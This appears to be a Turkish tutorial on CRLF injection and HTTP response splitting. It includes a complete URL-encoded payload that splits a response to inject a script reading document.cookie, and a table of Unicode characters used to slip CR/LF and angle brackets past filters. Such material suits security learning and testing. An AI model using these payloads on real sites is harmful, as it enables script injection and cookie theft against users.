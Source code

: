 # CRLF Nedir?
CRLF Injection, saldırganın HTTP başlıklarına CRLF karakterleri (\r\n) enjekte edebilmesi durumunda ortaya çıkar. Bu durum, HTTP Response Splitting'e yol açabilir. Bir web uygulaması, HTTP başlıklarını oluştururken kullanıcı girdisini kullanıyorsa. Saldırgan, bu girdiyi manipüle ederek ek başlıklar enjekte edebilir veya HTTP yanıtını bölebilir. Bu durum şu güvenlik risklerine yol açabilir:

- Cross-Site Scripting (XSS): İkinci yanıta kötü amaçlı script ekleme.
- Cache Poisoning: Yanlış içeriğin önbelleğe alınmasını sağlama.
- Header Manipulation: Başlıkları değiştirerek kullanıcıları veya sistemleri yanıltma.

# Cross-Site Scripting
CRLF injection ile en kolay istismar yöntemi, sayfanın gövdesini (body) yeniden yazmaktır. Bu teknik javascript kodu çalıştırmak için kullanılabilir.

Örnek istek:
```url
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Sunucu yanıtı:
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 39
 
<script>alert(document.cookie)</script>
```

# Filter Bypass
RFC 7230, çoğu HTTP başlık alanı değerinin yalnızca US-ASCII karakter setinin bir alt kümesini kullanması gerektiğini belirtir.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |